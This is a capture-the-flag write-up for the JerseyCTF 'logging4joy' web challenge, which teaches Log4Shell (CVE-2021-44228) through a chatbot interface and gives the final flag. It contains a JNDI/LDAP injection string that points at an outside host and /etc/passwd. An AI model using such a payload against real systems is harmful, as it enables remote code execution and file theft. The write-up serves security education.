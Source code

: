 # logging4joy

## web - medium

### This is the step-by-step method to solving the challenge from the developers Point of View

* This challenge is first met with the following description:
* <img src="https://github.com/JohnZabriskie/JerseyCTFIV-Writeups/assets/98345161/e4fa9880-c580-455d-aedc-66a1cc8fe376" width="50%" height="50%">

* We can see by the description that this is a challenge about the `log4j` or `log4shell` [exploit](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
* Doing some research we can look around and we see that this type of exploit usually requires a user to tap into the LDAP and other JNDI services as they are not protected.
* When we log on the safe environment (seen below) we are just met with a random chatbot that replies with somewhat passive aggressive responses:
* <img src="https://github.com/JohnZabriskie/JerseyCTFIV-Writeups/assets/98345161/5fd39235-8976-4cb9-ada4-ad7d59a6b2c1" width="50%" height="50%">
* We can look at some of the documentation that is provided about the exploit and see that we can try to trigger the exploit with the following command: `{jndi:ldap://sample.com/index/~/etc/passwd}` or something along those lines (the command to trigger this specific exploit is `{jndi:ldap://...}` seen below):
* <img src="https://github.com/JohnZabriskie/JerseyCTFIV-Writeups/assets/98345161/a572e6bf-080f-482d-8c8f-7bdef378814f" width="50%" height="50%">
* When that triggers, we are told to go to the console on the webpage where the actual code *would* be output, but here it is just the flag shown before 
* <img src="https://github.com/JohnZabriskie/JerseyCTFIV-Writeups/assets/98345161/5095f926-ca91-43b6-bc05-f775ae9558fb" width="100%" height="100%">
* To submit the final flag below:
* `jctf{logged_into_the_matrix}`